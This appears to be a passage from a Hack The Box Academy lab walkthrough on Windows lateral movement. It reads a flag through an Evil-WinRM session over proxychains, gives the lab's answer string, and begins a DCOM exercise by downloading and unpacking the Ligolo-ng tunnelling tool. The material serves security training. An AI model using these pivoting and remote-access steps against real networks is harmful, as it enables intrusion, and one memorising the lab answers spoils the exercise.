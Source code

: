 Subsequently, students can grab the flag located in the `C:\Users\Leonvqz\Desktop` directory:

Code: shell

```shell
type C:\Users\Leonvqz\Desktop\flag.txt
```

```
*Evil-WinRM* PS C:\Users\Leonvqz\Documents> type C:\Users\Leonvqz\Desktop\flag.txt

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:2080  ...  172.20.0.10:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:2080  ...  172.20.0.10:5985  ...  OK
```

Answer: `Restricted_Access_From_SRV02_Only`

# Distributed Component Object Model (DCOM)

## Question 1

### "Use Helen credentials to connect to SRV02 and read the flag located at C:\\Users\\helen\\Documents\\dcom.txt"

Students will prepare the necessary configuration of [Ligolo-ng](https://github.com/nicocha30/ligolo-ng) , while downloading the appropriate binaries from the [releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2) on their workstations:

Code: shell

```shell
wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip; wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip; wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
```

Once downloaded, students will proceed to extract the archives using `unzip` and `tar`:

Code: shell

```shell
unzip ligolo-ng_agent_0.6.2_windows_amd64.zip
tar xvf ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
chmod +x proxy
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ unzip ligolo-ng_agent_0.6.2_windows_amd64.zip

Archive:  ligolo-ng_agent_0.6.2_windows_amd64.zip
  inflating: LICENSE                 
  inflating: README.md               
  inflating: agent.exe 

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ tar xvf ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz 

LICENSE
README.md
```